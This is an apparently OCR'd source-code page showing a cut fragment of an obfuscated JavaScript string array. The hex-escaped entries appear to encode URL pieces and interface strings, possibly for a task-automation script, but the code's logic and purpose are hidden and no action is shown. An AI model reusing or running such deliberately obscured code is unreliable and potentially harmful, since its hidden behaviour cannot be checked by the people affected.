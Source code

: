 6f\x48\x75\x4a\x65\x46\x57\x50\x34','\x57\x34\x4e\x63\x53\x63\x79\x73\x6d\x57','\x57\x37\x57\x4e\x57\x51\x61','\x71\x43\x6f\x74\x57\x52\x70\x63\x4f\x53\x6b\x52','\x57\x51\x6d\x64\x69\x53\x6f\x36','\x71\x4d\x48\x54\x77\x76\x71','\x41\x68\x72\x30\x43\x68\x6d\x36\x6c\x59\x39\x57\x79\x71','\x57\x4f\x30\x62\x79\x73\x69\x45','\x77\x43\x6f\x6c\x44\x43\x6b\x30','\x79\x78\x72\x73\x44\x68\x6d','\x79\x76\x76\x67\x74\x67\x4b','\x42\x32\x34\x54\x79\x78\x6a\x59\x79\x78\x4b\x47\x42\x57','\x57\x50\x33\x64\x48\x72\x70\x63\x55\x4d\x38','\x77\x43\x6b\x49\x57\x35\x65\x44\x57\x37\x75','\x75\x53\x6b\x38\x43\x43\x6f\x43\x57\x50\x7a\x42\x44\x47','\x77\x77\x6e\x32\x43\x32\x71','\x75\x62\x39\x74\x76\x43\x6f\x31','\x72\x67\x31\x69\x41\x66\x79','\x79\x32\x76\x71\x57\x34\x70\x64\x4c\x53\x6b\x74\x74\x57','\x43\x33\x72\x31\x7a\x68\x4b','\x41\x4d\x48\x53\x41\x75\x34','\x44\x4c\x48\x65\x46\x6d\x6b\x77','\x57\x35\x74\x63\x48\x33\x65\x79\x57\x4f\x30','\x44\x30\x35\x76\x41\x4b\x43','\x57\x4f\x6c\x63\x4a\x53\x6b\x53\x66\x57','\x74\x58\x6c\x64\x4c\x6d\x6b\x4e\x45\x47\x52\x63\x4f\x71\x37\x64\x48\x38\x6f\x51','\x44\x67\x31\x4c\x72\x4c\x43','\x64\x74\x56\x64\x53\x43\x6f\x42\x57\x52\x75\x37\x78\x71\x4c\x74\x42\x61','\x41\x33\x6a\x6f\x45\x67\x43','\x57\x34\x74\x64\x49\x38\x6b\x6b\x45\x53\x6f\x51','\x57\x35\x68\x64\x4a\x43\x6f\x71\x57\x36\x62\x5a','\x7a\x75\x44\x71\x75\x76\x6d','\x41\x73\x62\x4c\x6e\x61\x57','\x57\x37\x46\x64\x4f\x67\x64\x63\x4f\x64\x43','\x43\x74\x30\x57\x6c\x4a\x43','\x57\x35\x42\x64\x49\x6d\x6f\x77','\x35\x6c\x55\x37\x35\x79\x51\x48\x36\x6c\x2b\x42\x35\x42\x51\x4d\x37\x37\x59\x41','\x45\x76\x6e\x55\x73\x31\x47','\x57\x4f\x71\x77\x63\x38\x6f\x6e\x6f\x61','\x57\x50\x37\x63\x4a\x43\x6b\x76\x68\x43\x6b\x67','\x57\x4f\x68\x64\x49\x53\x6b\x78\x68\x38\x6f\x68\x57\x35\x7a\x36','\x69\x4d\x2f\x64\x4d\x77\x57\x64\x41\x5a\x43\x55','\x71\x4b\x76\x41\x71\x4d\x69','\x41\x31\x44\x55\x7a\x30\x6d','\x57\x36\x30\x67\x62\x67\x46\x63\x52\x53\x6b\x49','\x43\x32\x76\x30\x75\x68\x76\x49\x42\x67\x4c\x4a\x73\x57','\x57\x35\x64\x63\x48\x47\x71\x52\x65\x71','\x74\x72\x58\x59\x62\x61','\x6b\x6d\x6b\x79\x68\x63\x6d\x34','\x72\x75\x76\x4e\x41\x65\x57','\x76\x76\x54\x43\x46\x38\x6b\x58','\x42\x76\x78\x63\x54\x31\x34\x61','\x75\x4d\x76\x53\x7a\x77\x66\x5a\x7a\x71','\x44\x4e\x76\x34\x41\x76\x71','\x6d\x72\x6e\x51\x42\x43\x6f\x59\x57\x34\x79\x2f\x42\x47','\x57\x34\x61\x4a\x66\x75\x31\x4f\x6a\x61','\x73\x62\x74\x64\x47\x53\x6b\x73','\x6c\x43\x6b\x72\x6d\x49\x47\x61','\x7a\x77\x35\x30\x69\x68\x44\x50\x44\x67\x48\x56\x44\x71','\x57\x36\x7a\x2f\x76\x59\x65\x55','\x43\x53\x6b\x48\x6f\x32\x31\x45','\x57\x52\x71\x6c\x6c\x53\x6f\x38','\x45\x78\x76\x55\x6c\x4d\x6e\x56\x42\x71','\x57\x52\x58\x46\x68\x47\x70\x64\x49\x57','\x57\x34\x78\x63\x4a\x74\x53\x62\x6d\x71','\x35\x51\x63\x45\x35\x50\x32\x41\x35\x37\x59\x79\x36\x6c\x73\x45\x36\x79\x45\x6f\x36\x6b\x2b\x54','\x73\x53\x6b\x36\x6a\x33\x58\x64','\x6f\x33\x65\x39\x6d\x63\x34\x34\x6c\x67\x76\x55\x6f\x57','\x57\x4f\x4b\x42\x69\x38\x6f\x55\x70\x57','\x57\x35\x56\x63\x4a\x77\x79\x36\x57\x50\x38','\x57\x52\x75\x65\x6b\x43\x6f\x56\x67\x43\x6b\x69\x46\x6d\x6f\x68','\x45\x4c\x50\x63\x73\x77\x30','\x73\x47\x37\x64\x49\x38\x6b\x4b\x43\x47','\x79\x32\x39\x59\x43\x57','\x64\x32\x4f\x6f\x75\x32\x70\x64\x50\x53\x6f\x36\x63\x74\x50\x79','\x6c\x4d\x50\x50\x42\x4d\x48\x31\x79\x73\x35\x4a\x42\x57','\x57\x35\x6c\x63\x53\x43\x6f\x2b\x57\x37\x42\x63\x54\x61','\x57\x37\x75\x6b\x62\x32\x75','\x64\x38\x6b\x4d\x78\x43\x6f\x77\x45\x71','\x57\x50\x42\x63\x4c\x53\x6f\x56\x57\x51\x61','\x7a\x67\x4c\x5a\x43\x67\x58\x48\x45\x75\x35\x48\x42\x71','\x73\x4b\x6e\x6e\x75\x32\x47','\x43\x4d\x66\x30\x42\x33\x69','\x75\x30\x6a\x71\x72\x30\x69','\x57\x37\x58\x71\x57\x51\x4a\x63\x4f\x53\x6b\x69\x72\x57','\x44\x4b\x6e\x65\x43\x4c\x47','\x79\x4c\x7a\x72\x43\x32\x43','\x63\x43\x6b\x67\x65\x47\x61\x48','\x79\x78\x6a\x30\x41\x77\x6e\x53\x7a\x76\x39\x53\x41\x71','\x44\x4b\x44\x41\x72\x67\x53','\x41\x77\x66\x59\x42\x30\x6d','\x77\x38\x6b\x4d\x6e\x78\x31\x44','\x57\x51\x6e\x59\x67\x6d\x6f\x73\x7a\x38\x6b\x70','\x46\x77\x46\x64\x52\x53\x6f\x63\x57\x50\x71','\x45\x4d\x6a\x5a\x72\x67\x47','\x79\x47\x2f\x64\x49\x53\x6b\x6b\x76\x47','\x79\x67\x53\x63\x74\x65\x64\x64\x4d\x71\x6a\x34\x42\x47','\x79\x38\x6b\x4a\x41\x53\x6f\x5a\x57\x50\x69','\x41\x68\x6a\x6d\x72\x68\x6d','\x78\x61\x78\x64\x4d\x43\x6b\x39\x46\x72\x52\x64\x52\x4c\x4f','\x57\x35\x64\x64\x48\x38\x6f\x62\x57\x34\x66\x73\x70\x4a\x31\x6a','\x41\x62\x66\x4e\x41\x6d\x6f\x30','\x46\x76\x4b\x54\x76\x75\x65','\x45\x38\x6f\x4f\x79\x63\x4a\x64\x54\x71','\x57\x50\x76\x55\x62\x61\x68\x64\x4d\x47','\x57\x35\x37\x63\x49\x63\x71\x64\x6b\x61','\x79\x30\x6e\x4c\x77\x66\x6d','\x74\x33\x72\x34\x73\x33\x65','\x41\x4e\x66\x66\x77\x68\x6d','\x6d\x53\x6b\x6f\x6f\x71','\x57\x51\x43\x69\x6e\x38\x6f\x50','\x79\x32\x39\x55\x79\x32\x66\x30','\x43\x4e\x52\x64\x52\x43\x6b\x78\x57\x34\x42\x63\x4a\x57','\x41\x53\x6f\x48\x45\x57\x74\x63\x4c\x47','\x42\x65\x72\x73\x72\x76\x4b','\x57\x36\x56\x63\x56\x49\x4b\x46\x6d\x67\x43','\x46\x57\x6e\x47\x42\x47','\x6c\x4d\x6d\x35\x57\x35\x30','\x73\x4d\x31\x50\x74\x33\x65','\x72\x33\x44\x78\x42\x78\x69','\x45\x4d\x35\x53\x57\x37\x5a\x64\x49\x57','\x42\x73\x35\x4a\x42\x47','\x57\x35\x7a\x6c\x57\x50\x46\x64\x52\x61','\x6c\x67\x78\x64\x47\x67\x4b\x64\x79\x71','\x43\x4d\x76\x5a\x42\x32\x58\x32\x7a\x71','\x7a\x65\x50\x41\x41\x68\x69','\x75\x65\x7a\x6b\x44\x4e\x79','\x57\x51\x52\x64\x53\x6d\x6b\x43\x7a\x4e\x52\x64\x4c\x38\x6b\x4f\x63\x6d\x6b\x75','\x75\x38\x6f\x57\x57\x4f\x5a\x63\x48\x53\x6b\x55','\x42\x4d\x39\x33','\x69\x66\x46\x64\x4b\x4d\x34\x52','\x6c\x33\x72\x48\x43\x32\x53\x56\x79\x32\x39\x54\x43\x61','\x71\x6d\x6f\x36\x72\x4a\x5a\x63\x47\x57','\x41\x32\x66\x62\x41\x4d\x75','\x57\x52\x42\x64\x49\x5a\x33\x63\x47\x78\x61\x63\x64\x6d\x6b\x50\x46\x53\x6b\x54','\x43\x75\x48\x6a\x77\x77\x34','\x77\x77\x56\x63\x4b\x43\x6f\x4a\x72\x47','\x57\x51\x43\x6c\x57\x37\x64\x64\x55\x43\x6f\x72\x61\x4b\x4a\x64\x4d\x38\x6b\x48\x57\x35\x68\x63\x4c\x71\x7
